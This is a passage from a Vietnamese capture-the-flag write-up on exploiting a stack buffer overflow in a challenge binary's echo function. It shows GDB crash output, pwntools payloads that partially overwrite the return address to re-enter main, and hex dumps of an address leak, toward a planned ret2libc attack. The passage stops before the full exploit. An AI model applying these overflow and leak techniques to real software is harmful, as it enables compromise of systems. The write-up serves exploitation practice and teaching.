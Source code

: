 ```java
0x00007ffd3934d380│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x5578da42f23f <echo+118>       call   0x5578da42f0b0 <printf@plt>
   0x5578da42f244 <echo+123>       nop
   0x5578da42f245 <echo+124>       leave
 → 0x5578da42f246 <echo+125>       ret
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "challenge_patch", stopped 0x5578da42f246 in echo (), reason: SIGSEGV
```
Đã có thể overwrite được retAddr nhưng rip lại không nhận giá trị này và gây là lỗi SIGSEGV? Có lẽ ta nên tìm cách khác. Ơ nhưng mà rõ ràng mình gửi 8byte B mà sao đây chỉ có 7byte nhỉ? Nó đã thay thế cho ký tự \0 chăng? Đến đây thì mình phát hiện rằng ta có thể chỉ gửi 279 byte + null byte hoặc là sẽ gửi full 280 byte và overwrite luôn cả null byte, lúc đó retAddr nằm ngay sau đó sẽ được in ra cùng với input của mình vậy là hoàn toàn có thể leak ra các địa chỉ trên stack. Vậy là mình sẽ tìm cách leak các địa chỉ của exe và libc. Mode RELRO enable nên k thể overwrite được got có lẽ mình sẽ exploit bằng ret2libc. Nhưng vấn đề là phải cho echo chạy về main một lần nữa để có thể leak được nhiều lần. Thế thì mình sẽ gửi payload overwrite retAddr là địa chỉ của main.

```python
payload = b'A'*280
payload += p64(exe.sym['main'])
```
```java
...
0x00007fffd990cfd0│+0x0110: 0x4141414141414141   ← $rbp
0x00007fffd990cfd8│+0x0118: 0x0000000000124741
...
```
Bằng một cách thần kì nào đó ta không thể ghi địa chỉ của main vào và có một ký tự A bị lọt vào. Sửa lại payload một chút
```python
payload = b'A'*279
payload += p64(exe.sym['main'])
```
Lần này có ổn hơn một chút nhưng mình lại phát hiện ra vấn đề khác: không hiểu sao địa chỉ của hàm main nó lại lạ ntn nữa =))
```java
[DEBUG] Sent 0x11f bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000110  41 41 41 41  41 41 41 47  12 00 00 00  00 00 00     │AAAA│AAAG│····│···│
    0000011f
```
Nhờ bật mode debug mới phát hiện được, mình đã thử nhảy vào các vị trí khác trong main nhưng mà vẫn thế =)) nó chỉ có 2 byte sau, còn mấy byte đầu pay màu hết. Chạy đi chạy lại cả chục lần thì mình thấy là dù cho các byte đầu có thay đổi thì byte cuối của nó vẫn giữ nguyên (retAddr của echo luôn kết thúc = \xb3, hàm main có byte cuối luôn = \x47) và chỉ cần thay đổi cái này là được. Khi đã chạy lại đầu hàm main được rồi lại có thêm lỗi `xmm1`(mệt vl =))) `movaps XMMWORD PTR [rbp-0x600], xmm1` nên mình sẽ cho chạy vào địa chỉ khác trong main. Mình sẽ cho nhảy vào main + 5 có đuôi là \x4c, đồng thời leak được địa chỉ này ra
```java
[DEBUG] Received 0x126 bytes:
    00000000  45 63 68 6f  32 3a 20 0a  41 41 41 41  41 41 41 41  │Echo│2: ·│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000110  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 4c  │AAAA│AAAA│AAAA│AAAL│
    00000120  c2 bd 3b 78  55 0a                                  │··;x│U·│
    00000126
Echo2:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAL½;xU
```